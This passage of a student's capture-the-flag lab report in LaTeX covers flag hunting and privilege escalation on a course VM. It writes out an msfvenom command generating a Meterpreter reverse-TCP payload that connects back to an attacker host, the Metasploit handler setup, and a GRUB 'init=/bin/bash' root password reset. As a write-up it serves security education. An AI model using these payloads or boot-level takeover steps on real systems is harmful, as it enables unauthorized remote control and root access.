Since we are in a new user, it's time to rerun old commands and see if any new files can be found. Instead of using \texttt{ls} and \texttt{grep} to search, we will use the following \texttt{find} command: \texttt{find / -type f -name '*flag*' 2>/dev/null}. Here is a breakdown of the command used in Figure 24:\cite{find}
\begin{lstlisting}[language=bash]
find / #Selecting the / directory to search in
-type f #Restricts the command to only search files
-name '*flag*' #Specifies that the command should only search files that 
               #contain "flag"
2>/dev/null #Hiding errors
\end{lstlisting}
\subsubsection{Finding a flag in \texttt{/tmp}}
\begin{figure}[h]
	
\includegraphics[scale=0.45]{images/fdtmp.png}
	\centering
	\caption[Outout of the find command]{Output of the \texttt{find} command \footnotemark}
\end{figure}\abc
\footnotetext{The username in Figures 24 and 25 is different since we were too focused on getting root access and thus only did this flag later after a VM reboot.}
\begin{figure}[h]
	
\includegraphics[scale=0.7]{images/tmpfl.png}
	\centering
	\caption{Viewing the flag in the \texttt{/tmp} directory}
\end{figure}\abc
As seen in Figures 24 and 25, there is a flag in the \texttt{/tmp} directory that we missed the first time. We should have used the find command right away instead of recursively listing all the files.
\newpage
\subsubsection{Finding the history flag}
Additionally to the find command, I remembered reading in a CTF cheat sheet a while ago to check the command history of the user. However, I initially only checked \texttt{.bash\_history} instead of the \texttt{.history} file, which contains a flag in this CTF. I always missed it until I ran \texttt{ls -l} as a sanity check in the home directory of CheerfulOtter and found the flag, as shown in Figures 26 and 27.\cite{enumeration-walkthough}
\begin{figure}[ht]
	
\includegraphics[scale=0.5]{images/colsal.png}
	\centering
	\caption{Viewing the home directories of CheerfulOtter}
\end{figure}
\begin{figure}[h]
	
\includegraphics[scale=0.7]{images/cofl.png}
	\centering
	\caption{Viewing the flag in the \texttt{.history} file}
\end{figure}\abc
\newpage
\subsection{It should be over now, right?}
Now that we found the following six flags:
\begin{enumerate}
	\item \texttt{FLAG\{use\_secure\_credentials\}}
	\item \texttt{FLAG\{always\_check\_comments\_in\_scripts\}}
	\item \texttt{FLAG\{sudo\_privileges\_are\_key\}}
	\item \texttt{FLAG\{inspect\_running\_processes\}}
	\item \texttt{FLAG\{tmp\_directory\_is\_not\_safe\}}
	\item \texttt{FLAG\{always\_check\_history\}}
\end{enumerate}
This means that the exercise is over, right?\abc
No, it's not over yet. In an email, Professor Zivkovic stated that for flag 6, root access is needed. This means that either he made a mistake in counting, forgot about one, or there is a 7th flag that requires root privileges. Spoiler alert: it was the latter. So, section 4.13 will be about escalating the privileges to get to that point.
\newpage
\subsection{Privilege escalation on Linux}
If you want to escalate your privileges on Linux, you have five options, which are the following:\footnote{We are not experts in this since we weren't taught this, and this is only what we found with the limited time we had. We barely know anything about this matter.}\cite{priv-esc-overview}
\begin{enumerate}
	\item Find an exploit for the version of the kernel that is running.\cite{kernel-exploit}
	\item Find a SUID binary that runs with the owner's permissions.\cite{suid}
	\item Escalate to a shell in a usable command with \texttt{sudo}.\cite{sudo-exploit}
	\item Find writable files that run at startup, like \texttt{crontab}, or other misconfigurations in the system.\cite{enumeration-walkthough}
	\item Find an attachable process that is running as root.
\end{enumerate}

\subsubsection{Using a smart enumeration tool}
To quickly and effortlessly gather information about possible attack vectors for privilege escalation, there are tools such as \texttt{linux-smart-enumeration} to do the job for you. After running the script on both users, we found that there were no attack vectors we could exploit. We discovered an empty backup file in the following location: \texttt{/snap/docker/2963/usr/share/man/man8/zstreamdump.8.gz}, and a \texttt{screen} session by the root user which we could not attach to. Additionally, the binaries \texttt{/snap/snapd/23545/usr/lib/snapd/snap-confine} and \texttt{/snap/snapd/23258/usr/lib/snapd/snap-confine} run as root, but the only available exploit for them has been patched for years. Furthermore, the only command we could run with elevated privileges is \texttt{cat /opt/secret\_flag.txt}, which does not allow us to escalate to the command line interface (CLI). Lastly, not a single cron file was writable, nor were we able to view configuration files such as \texttt{/etc/sudoers}, which means there is no way to get root privileges on the system. This is further proven by the setup script not setting anything up to make root accessible without directly modifying the virtual machine.\cite{lse,suid,sudo-exploit,enumeration-walkthough}
\subsubsection{trying a kernel level exploit}
We also tried a kernel exploit from \texttt{exploit-db} out of desperation, which failed at compiling \cite{exploitdb}.
\subsubsection{Trying to get privileges using Metasploit and Meterpreter}
Lastly, we tried to use Meterpreter and its prebuilt privilege escalation modules.\abc
To do this, we had to generate a payload first. While we could have just used a Netcat shell and upgraded to Meterpreter, we took this opportunity to learn something new. The payload was generated with the following command: \texttt{msfvenom -p linux/x86/meterpreter/reverse\_tcp LHOST=[IP] LPORT=4444 -f elf -o payload.bin}, which is also broken down below.\cite{msfvenomdocs}
\begin{lstlisting}[language=bash]
-p linux/x86/meterpreter/reverse_tcp #setting the payload to be reverse
                                      #TCP for Linux x86
LHOST=[IP] # sets IP address of the attacking machine
LPORT=4444 #sets the local port to listen for a connection
-f elf #specifies the output format
-o payload.bin #specifies the output filename
\end{lstlisting}
The output of the command can be seen in Figure 28.
\begin{figure}[h]
	
\includegraphics[scale=0.7]{images/msfgenpayload.png}
	\centering
	\caption{Generating the payload using \texttt{msfvenom}}
\end{figure}\abc
After this, the payload is uploaded to the target using scp, as demonstrated in Figure 29.
\begin{figure}[ht]
	
\includegraphics[scale=0.5]{images/scp.png}
	\centering
	\caption{Uploading the payload to the target}
\end{figure}\abc
\newpage\abc
The next step is to open the Metasploit console by running \texttt{msfconsole}. Set the exploit to \texttt{exploit/multi/handler}, the payload to \texttt{linux/x86/meterpreter/reverse\_tcp}, the LHOST to \texttt{192.168.15.4}, and finally, run the command \texttt{run} to start the reverse TCP handler. After that, we execute the binary on the target, and we have a Meterpreter shell, as shown in Figures 30 and 31.
\begin{figure}[ht]
	
\includegraphics[scale=0.5]{images/msfc.png}
	\centering
	\caption{Running the necessary commands in the msfconsole}
\end{figure}
\begin{figure}[h]
	
\includegraphics[scale=0.8]{images/ep.png}
	\centering
	\caption{Executing the payload on the target}
\end{figure}\abc
Now that we have access to Meterpreter, we can use commands such as \texttt{getuid} to get the ID of the user and many other useful commands such as \texttt{upload} and \texttt{download}. However, as demonstrated in Figure 32, loading the priv module didn't work, so we were not able to test if \texttt{getsystem} would work to escalate the privileges.
\begin{figure}[h]
	
\includegraphics[scale=0.51]{images/RadagJuice.png}
	\centering
	\caption{The required modules not being loaded}
\end{figure}\abc
\newpage
\subsection{Getting root access through editing the GRUB boot options}
Since we weren't able to gain access, we resorted to the good old and reliable GRUB root password reset. \cite{root-grub}
To use this method, the system needs to be running the GRUB boot loader, which is the default for Ubuntu.\abc
It is performed by pressing \texttt{e} when seeing the screen shown in Figure 33, which brings up the menu to edit the boot commands.
\begin{figure}[h]
	
\includegraphics[scale=0.51]{images/pe.png}
	\centering
	\caption{Showing the GRUB screen to press \texttt{e} on}
\end{figure}\abc
Then navigate to the line starting with \texttt{linux} and append \texttt{rw init=/bin/bash}, as shown in Figure 34, to change a kernel parameter. After pressing F10, you will immediately boot into the system with a root shell, as shown in Figure 35.\newpage
\begin{figure}[ht]
	
\includegraphics[scale=0.51]{images/rw+.png}
	\centering
	\caption{Editing a kernel parameter}
\end{figure}
\begin{figure}[h]
	
\includegraphics[scale=0.45]{images/pwc.png}
	\centering
	\caption{Changing the root password}
\end{figure}\abc
Lastly, as displayed in Figure 35, we run the command \texttt{exec /sbin/init} to reboot the system and load into the operating system as usual.
Figure 36 verifies this by showing the root login after rebooting.\newpage
\begin{figure}[h]
	
\includegraphics[scale=0.45]{images/ve.png}
	\centering
	\caption{Logging in as the root user}
\end{figure}\abc
\subsection{Obtaining the final flag}
Now that we are the root user, we can see a file called \texttt{root\_flag.txt}, which contains the final flag. Additionally, we can view the file \texttt{ctf\_setup.sh} to see how the CTF is made and verify that we actually got all of the flags this time. These files are also available in the ZIP file beside this document. Figure 37 shows the files in \texttt{/root} and the final flag.
\begin{figure}[h]
	
\includegraphics[scale=0.75]{images/ogm.png}
	\centering
	\caption{Viewing the final flag in the \texttt{/root} directory}
\end{figure}\abc

\newpage
\section{References}
\bibliography{IEEEabrv,quellen}
\newpage
\section{List of figures}

\listoffigures

\end{document}
